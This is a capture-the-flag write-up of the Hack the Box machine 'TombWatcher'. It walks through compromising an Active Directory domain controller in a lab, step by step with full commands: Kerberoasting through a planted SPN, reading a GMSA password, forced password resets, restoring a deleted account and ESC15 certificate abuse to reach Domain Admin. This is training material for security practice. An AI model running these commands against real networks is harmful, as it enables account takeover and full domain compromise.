## About TombWatcher

|             |                        |
| ----------- | ---------------------- |
| Machine     | TombWatcher            |
| Platform    | Hack the Box           |
| Difficulty  | Medium                 |
| OS          | Windows                |
| Target IP   | 10.129.232.167         |
| Credentials | `henry: H3nry_987TGV!` |

---
## Walkthrough

### Enumeration

Let's kick things off with an Nmap scan using the `-sV` and `-sC` flags to identify open ports and running services:

```
$ nmap -sC -sV -v -oA TombWatcher 10.129.232.167

PORT     STATE SERVICE       VERSION                                                                                                                  14:12 [64/154]
53/tcp   open  domain        Simple DNS Plus                                                                                                                        
80/tcp   open  http          Microsoft IIS httpd 10.0                                                                                                               
| http-methods:                                                                                                                                                     
|   Supported Methods: OPTIONS TRACE GET HEAD POST                                                                                                                  
|_  Potentially risky methods: TRACE                                                                                                                                
|_http-server-header: Microsoft-IIS/10.0                                                                                                                            
|_http-title: IIS Windows Server                                                                                                                                    
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-08 12:40:15Z)                                                                         
135/tcp  open  msrpc         Microsoft Windows RPC                                                                                                                  
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                                          
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)                                       
|_ssl-date: 2026-08-08T12:41:45+00:00; +3h59m41s from scanner time.                                                                                                 
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb                                                                                                                
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb                                                                 
| Issuer: commonName=tombwatcher-CA-1                                                                                                                               
| Public Key type: rsa                                                                                                                                              
| Public Key bits: 2048                                                                                                                                             
| Signature Algorithm: sha1WithRSAEncryption                                                                                                                        
| Not valid before: 2024-11-16T00:47:59                                                                                                                             
| Not valid after:  2025-11-16T00:47:59                                                                                                                             
| MD5:     a396 4dc0 104d 3c58 54e0 19e3 c2ae 0666                                                                                                                  
| SHA-1:   fe5e 76e2 d528 4a33 8adf c84e 92e3 900e 4234 ef9c                                                                                                        
|_SHA-256: 5128 aaea b79b bc06 762a 04d6 b475 4a21 a52c d1b1 205a 0440 85bd f5d6 2734 6ea9                                                                          
445/tcp  open  microsoft-ds?                                                                                                                                        
464/tcp  open  kpasswd5?                                                                                                                                            
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0   
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)                                       
|_ssl-date: 2026-08-08T12:41:44+00:00; +3h59m41s from scanner time.                                                                                                 
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb  

| SHA-1:   fe5e 76e2 d528 4a33 8adf c84e 92e3 900e 4234 ef9c                                                                                                 [0/154]
|_SHA-256: 5128 aaea b79b bc06 762a 04d6 b475 4a21 a52c d1b1 205a 0440 85bd f5d6 2734 6ea9                                                                          
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                                
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                                                                         
|_http-title: Not Found                                                                                                                                             
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows 
```

Looking at the output, we can see a large number of open ports `53, 88, 135, 139, 389, 445, 464, 593, 636, 5985` which, combined with the LDAP service banner showing the domain `tombwatcher.htb` and hostname `DC01.tombwatcher.htb`, strongly suggests we're dealing with a **Domain Controller**. 

Let's add the domain name and DC hostname to our `/etc/hosts` file before moving on.




Visiting port 80 gives us a default IIS web page - nothing useful.



I decided to run directory brute-forcing against it just to be thorough. Unfortunately, this didn't turn up anything interesting.

```
ffuf -u http://10.129.232.167/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
```



I shifted my focus toward the AD-specific services instead - since we already had a set of credentials (`henry:H3nry_987TGV!`) to work with.

With valid credentials in hand, I checked for any accessible SMB shares that might have read or write permissions:

```
netexec smb 10.129.262.167 -u henry -p 'H3nry_987TGV!' --shares
```

Again, no luck here - nothing worth digging into.



Next, let's enumerate the domain's user accounts with NetExec:

```
netexec smb 10.129.232.167 -u henry -p H3nry_987TGV! --users | tee users.txt
```

This gave us four non-default usernames that could be worth investigating later. 



### Foothold

With a decent picture of the domain's users forming, it's time to bring in **BloodHound** to map out the AD attack surface:

```
sudo bloodhound-python -u henry -p 'H3nry_987TGV!' -ns 10.129.232.167 -d tombwatcher.htb -c all
zip -r tombwatcher.zip *.json
```

We can now start BloodHound and import this zip file into it.



After importing the collected data, I marked `henry` as owned and checked his **Outbound Object Control** rights. This revealed that henry holds **WriteSPN** rights over the user `alfred`.



This means we can register a custom SPN under alfred's account and perform a **Kerberoasting** attack to extract a Ticket Granting Service (TGS) ticket, which can then be cracked offline to recover alfred's password.

Let's set a fake SPN on alfred using henry's credentials:

```
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u henry -p 'H3nry_987TGV!' set object alfred servicePrincipalName -v 'fake/kerberoast'
```

Now that alfred has an SPN, we can request the TGS ticket:

```
impacket-GetUserSPNs -dc-ip 10.129.232.167 tombwatcher.htb/henry -request-user alfred -outputfile alfred_tgs
```



Our SPN attack worked (we can see fake/kerberoast listed for Alfred), but the actual TGS request failed due to clock skew between our machine and the DC. We can fix this and re-run the command like this:

```
sudo apt install faketime -y
faketime "$(ntpdate -q 10.129.232.167 | cut -d' ' -f1,2)" impacket-GetUserSPNs -dc-ip 10.129.232.167 tombwatcher.htb/henry -request-user alfred -outputfile alfred_tgs
```



With the hash captured, we can move to cracking it. 

```
hashcat -m 13100 alfred_tgs /usr/share/wordlists/rockyou.txt
```


Once cracked, I tested the recovered password against SMB and WinRM to check its validity. As we can see, these credentials work for SMB but not for WinRM.



Digging further in BloodHound, we found that alfred has the ability to add himself to the `Infrastructure` group. Members of this group have read access to the Group Managed Service Account (GMSA) password for the service account `ansible_dev$`.



Let's add alfred to the `Infrastructure` group using BloodyAD:

```
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u alfred -p basketball add groupMember "infrastructure" "alfred"
```

Now we can read the GMSA password for the `ansible_dev$` account:

```
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u alfred -p basketball -s get object 'ansible_dev$' --attr msDS-ManagedPassword
```



With the GMSA password recovered, our next check in BloodHound showed that the `ansible_dev$` account holds **ForceChangePassword** rights over the user `sam`.



With this rights, we can change the password for the sam user and authenticate as him with the new password:

```
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u 'ansible_dev$' -p ':cb3161cb2c9d84b58ba3014f55040d75' set password sam 'pass123'
```

We successfully authenticate as sam with the new password!



Continuing our enumeration as sam, we found that he holds **WriteOwner** rights over the user `john`, who is a member of the **Remote Management Users** group - making him a high-value target for us.



WriteOwner gives us the ability to take ownership of john's object, which then lets us grant ourselves further rights (typically GenericAll) to fully take over the account. Let's chain this attack together step by step:

```
# Take ownership of john's object
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u sam -p 'pass123' set owner john sam

# Grant ourself GenericAll on john
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u sam -p 'pass123' add genericAll john sam

# Reset john's password
bloodyad --host tombwatcher.htb -d tombwatcher.htb -u sam -p 'pass123' set password john 'password123' 
```



We can now authenticate to WinRM successfully!



Log-in with john's credentials.

```
evil-winrm -i 10.129.232.167 -u john -p password123
```

My evil-winrm connection kept dropping, so I read the user flag through NetExec instead:

```
netexec winrm 10.129.232.167 -u john -p password123 -x "type C:\Users\john\Desktop\user.txt"
```



### Privilege Escalation

While exploring BloodHound as john, we discovered that he holds **GenericAll** permissions on the OU `ADCS@TOMBWATCHER.HTB`.



This OU had no visible objects in it, which looks suspicious. So I decided to check for deleted AD objects and accounts within this OU:

```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
```

This turned up several deleted instances - including a user account, `cert_admin`.



Let's restore this account:

```
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf 
```

With our permissions on the OU, we can enable the account and reset its password:

```
Set-ADAccountPassword -Identity 'cert_admin' -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```

Now that we have full control over `cert_admin`, let's enumerate the certificate templates for any vulnerabilities:

```
certipy-ad find -u cert_admin@tombwatcher.htb -p Password123! -dc-ip 10.129.232.167 -vulnerable
```



Checking the generated report, `20260808225118_Certipy.txt`, confirmed an **ESC15** vulnerability on one of the templates.



Let's request a certificate for the administrator account, abusing the ESC15 misconfiguration:

```
certipy-ad req -u cert_admin -p 'Password123!' -dc-ip 10.129.232.167 -target DC01.tombwatcher.htb -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'administrator@tombwatcher.htb' -application-policies 'Client Authentication'
```



With the `administrator.pfx` certificate now in hand, we can use it to obtain an LDAP shell as `administrator@tombwatcher.htb`:

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.232.167 -ldap-shell
```

From here, we can either create a new account or use an existing one (we went with john) and add it to the **Domain Admins** group.



Back in our evil-winrm session, we confirm that john is now a member of Domain Admins.



With that confirmed, we can now read our root flag!



---